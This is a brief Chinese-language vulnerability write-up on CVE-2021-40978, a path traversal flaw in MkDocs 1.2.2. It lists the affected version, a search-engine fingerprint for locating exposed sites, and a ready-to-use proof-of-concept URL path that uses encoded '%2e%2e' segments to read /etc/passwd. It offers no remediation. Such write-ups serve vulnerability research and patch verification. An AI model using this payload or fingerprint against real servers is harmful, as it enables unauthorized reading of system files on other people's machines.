


# MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

```
Mkdocs 1.2.2
```

## 网络测绘

```
title="My Docs"
```

## 漏洞复现

主页面



验证POC

```
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

